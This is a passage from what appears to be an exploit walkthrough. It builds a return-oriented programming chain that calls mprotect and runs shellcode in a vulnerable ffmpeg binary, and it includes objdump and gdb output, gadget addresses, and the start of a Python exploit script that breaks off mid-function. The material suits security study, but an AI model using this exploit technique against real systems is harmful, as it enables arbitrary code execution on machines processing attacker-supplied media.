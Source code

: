 The segfault shows that the program crashed on `0xdeadbeef` and that the future
return addresses are within our control.

## mprotect ROP Chain

The next step is to write the ROP chain to perform an `mprotect` call to mark a
region of memory as readable, writable, and executable. Then, the ROP chain
would copy shellcode into this region of memory before jumping to it. First, we
need to find the address of `mprotect` in the Procedure Linkage Table.

```shell
$ objdump -d ffmpeg | grep mprotect
00000000004071f0 <mprotect@plt>:
  4749b3:    e8 38 28 f9 ff           callq  4071f0 <mprotect@plt>
  4749d3:    e8 18 28 f9 ff           callq  4071f0 <mprotect@plt>
```

From the above we can get the address `0x00000000004071f0` as the address of
`mprotect`. Additionally, we will need an address to pick as the place where we
will put the shellcode. The writable section (0x01646000) of the binary is a
good pick:

```shell
gdb-peda$ vmmap
Start              End              Perm    Name
0x00400000         0x01446000       r-xp    /home/ubuntu/debug/ffmpeg_bin/ffmpeg
0x01645000         0x01646000       r--p    /home/ubuntu/debug/ffmpeg_bin/ffmpeg
0x01646000         0x0168d000       rw-p    /home/ubuntu/debug/ffmpeg_bin/ffmpeg
0x0168d000         0x01e05000       rw-p    [heap]
...
````

Next, we can take a look at `mmap.c` in the Linux source code to figure out the
values of `PROT_READ`, `PROT_WRITE`, and `PROT_EXEC` for the call to `mprotect`.

```c
#define PROT_READ    0x1     /* Page can be read.  */
#define PROT_WRITE    0x2     /* Page can be written.  */
#define PROT_EXEC    0x4     /* Page can be executed.  */
```

The python code to perform the `mprotect` and copy shellcode is as follows:

```python
# ROP Gadgets

pop_rsp = 0x00000000004077e9     # pop rsp; ret;
stack_pivot = 0x000000000049daa9 # add rsp, 0x58; ret;
push_rbx_jmp_rdi = 0x000000000117fc75 # push rbx; jmp rdi;

mprotect_segment = 0x01646000
mprotect_size = 0x500
mprotect_prot = 0x1 | 02 | 0x4

pop_rdi = 0x0000000000407c39
pop_rsi = 0x0000000000408b2c
pop_rdx = 0x0000000000408859

write_gadget = 0x0000000000422544 # mov qword ptr [rsi], rdx; ret;

mprotect_plt = 0x4071f0


def generate_mov(address_base, data):
    """Move data into memory startng at the given address_base with a write
    gadget."""

    def chunks(l, n):
```